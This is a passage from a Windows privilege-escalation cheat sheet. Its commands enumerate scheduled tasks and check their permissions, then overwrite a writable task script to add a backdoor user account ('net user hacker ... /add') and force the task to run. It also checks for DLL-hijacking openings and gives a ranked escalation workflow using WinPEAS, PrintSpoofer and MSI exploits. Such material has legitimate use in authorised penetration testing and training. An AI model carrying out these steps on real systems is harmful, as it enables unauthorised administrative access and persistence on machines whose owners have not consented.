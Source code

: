 
## Scheduled Tasks

### Find Writable Scheduled Tasks

```powershell
# List scheduled tasks
schtasks /query /fo LIST /v

# Check task permissions
icacls "C:\Path\To\Task\Script.bat"

# If writable, modify script
echo "net user hacker Password123! /add" > "C:\Path\To\Task\Script.bat"

# Wait for task to run or force it
schtasks /run /tn TaskName
```

---

## DLL Hijacking

### Find DLL Search Order Issues

```powershell
# Check application directory permissions
icacls "C:\Program Files\Application"

# If writable, check what DLLs application loads
# Use Process Monitor (procmon) to identify missing DLLs
```

**Complex technique - only attempt if other methods fail**

---

## Privilege Escalation Workflow

### Systematic Approach

**Quick Manual Checks**
```powershell
whoami /priv
whoami /groups
```

**Run WinPEAS**
```powershell
.\winPEAS.exe
```

**Review and Prioritize**
```
Look for in order:
1. SeImpersonate → PrintSpoofer (instant)
2. AlwaysInstallElevated → MSI exploit
3. Unquoted service paths → Binary replacement
4. Weak service permissions → Config modification
5. Autologon credentials → Password reuse
6. Scheduled tasks → Script modification
```
